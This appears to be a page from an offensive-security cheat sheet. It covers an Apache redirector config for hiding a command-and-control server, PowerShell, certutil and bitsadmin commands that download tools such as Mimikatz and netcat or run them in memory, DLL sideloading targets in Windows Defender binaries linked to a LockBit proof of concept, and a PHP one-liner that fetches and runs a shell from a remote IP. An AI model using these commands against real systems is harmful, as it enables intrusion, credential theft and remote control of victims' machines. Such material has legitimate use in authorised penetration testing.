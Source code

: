 ### Apache mod_rewrite
This would require an Apache2 server setup on your redirector and C2 server also needed to have a public IP address.
1. Setup an Apache2 server on your redirector.
2. Modify your apache configuration file in `/etc/apache2/sites-enabled/000-default.conf`
```ini
ProxyRequests Off

# Target --> VPS --> C2
ProxyPass /index.html http//c2IPADRESS/index.html

# C2 --> VPS --> Target
ProxyPassReverse /index.html http//c2IPADRESS/index.html
```

# File Transfer

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

# DLL Sideloading
These are all some of my personal favorite sideloading tricks collected from various platforms. 

| Binary | Location | Reference DLL | Export Function | Reference |
|-------|---------|----------|-----|-----|
|NisSrv.exe|`C:\Program Files\Windows Defender\NisSrv.exe`|mpclient.dll|[Source](https://raw.githubusercontent.com/Sh0ckFR/Lockbit3.0-MpClient-Defender-PoC/main/dllmain-NisSrv.cpp)|[Link](https://twitter.com/Sh0ckFR/status/1554021948967079936)|
|MpCmdRun.exe|`C:\Program Files\Windows Defender\MpCmdRun.exe`|mpclient.dll|[Source](https://raw.githubusercontent.com/Sh0ckFR/Lockbit3.0-MpClient-Defender-PoC/main/dllmain-mpcmdrun.cpp)|[Link](https://twitter.com/Sh0ckFR/status/1554021948967079936)|

# Reverse Shells
_Credits: These reverse shells examples are reffered to [EzpzShell](https://github.com/H0j3n/EzpzShell) by [@h0j3n](https://twitter.com/h0j3n)_
### php reverse shell
You can get a full reverse shell script [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by PentestMonkey
```php
<?php system("curl http://192.168.86.139/shell.php|php"); ?>
```
